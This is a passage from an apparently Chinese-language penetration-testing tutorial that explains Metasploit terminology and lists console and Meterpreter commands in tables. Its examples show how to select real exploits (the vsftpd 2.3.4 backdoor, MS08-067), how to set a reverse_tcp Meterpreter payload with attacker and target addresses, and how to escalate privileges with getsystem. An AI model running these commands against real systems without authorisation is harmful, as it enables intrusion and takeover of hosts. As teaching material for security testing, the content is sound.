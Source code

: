 在设置好 Kali Linux 之后，我们现在准备使用 Metasploit 进行第一次渗透测试。然而，在开始测试之前，让我们回顾一些 Metasploit 框架中使用的基本功能和术语。

# 回顾 Metasploit 的基础知识

在运行 Metasploit 之后，我们可以在 Metasploit 控制台中键入 help 或?来列出框架中所有可用的有用命令。让我们回顾一下 Metasploit 中使用的基本术语，如下所示：

+   **利用**: 这是一段代码，当执行时，将利用目标的漏洞。

+   **有效载荷**: 这是在成功利用后在目标上运行的代码。它定义了我们想要在目标系统上执行的操作。

+   **辅助**: 这些是提供额外功能的模块，如扫描、模糊测试、嗅探等。

+   **编码器**: 编码器用于混淆模块，以避免被防病毒软件或防火墙等保护机制检测到。

+   **Meterpreter**: Meterpreter 是一种使用内存 DLL 注入分段器的有效载荷。它提供了各种功能，可在目标上执行，这使其成为一个受欢迎的选择。

现在，让我们回顾一些我们将在本章中使用的 Metasploit 的基本命令。让我们看看它们应该做什么：

| **命令** | **用法** | **示例** |
| --- | --- | --- |
| `use [Auxiliary/Exploit/Payload/Encoder]` | 选择要开始使用的特定模块 | `msf>use exploit/unix/ftp/vsftpd_234_backdoor msf>use auxiliary/scanner/portscan/tcp` |
| `show [exploits/payloads/encoder/auxiliary/options]` | 查看特定类型的可用模块列表 | `msf>show payloads msf> show options` |
| `set [options/payload]` | 为特定对象设置值 | `msf>set payload windows/meterpreter/reverse_tcp msf>set LHOST 192.168.10.118 msf> set RHOST 192.168.10.112 msf> set LPORT 4444 msf> set RPORT 8080` |
| `setg [options/payload]` | 全局设置特定对象的值，因此在模块切换时值不会改变 | `msf>setg RHOST 192.168.10.112` |
| `run` | 在设置所有必需的选项后启动辅助模块 | `msf>run` |
| `exploit` | 启动一个利用 | `msf>exploit` |
| `back` | 取消选择模块并返回 | `msf(ms08_067_netapi)>back msf>` |
| `Info` | 列出与特定漏洞/模块/辅助相关的信息 | `msf>info exploit/windows/smb/ms08_067_netapi msf(ms08_067_netapi)>info` |
| `Search` | 查找特定模块 | `msf>search hfs` |
| `check` | 检查特定目标是否容易受到攻击 | `msf>check` |
| `Sessions` | 列出可用的会话 | `msf>sessions [session number]` |

让我们来看看基本的 Meterpreter 命令：

| **Meterpreter 命令** | **用法** | **示例** |
| --- | --- | --- |
| `sysinfo` | 列出受损主机的系统信息 | `meterpreter>sysinfo` |
| `ifconfig` | 列出受损主机上的网络接口 | `meterpreter>ifconfig meterpreter>ipconfig (Windows)` |
| `arp` | 列出连接到目标的主机的 IP 和 MAC 地址 | `meterpreter>arp` |
| `background` | 将活动会话发送到后台 | `meterpreter>background` |
| `shell` | 在目标上放置一个 cmd shell | `meterpreter>shell` |
| `getuid` | 获取当前用户的详细信息 | `meterpreter>getuid` |
| `getsystem` | 提升权限并获得 SYSTEM 访问权限 | `meterpreter>getsystem` |
| `getpid` | 获取 meterpreter 访问的进程 ID | `meterpreter>getpid` |
| `ps` | 列出目标上运行的所有进程 | `meterpreter>ps` |
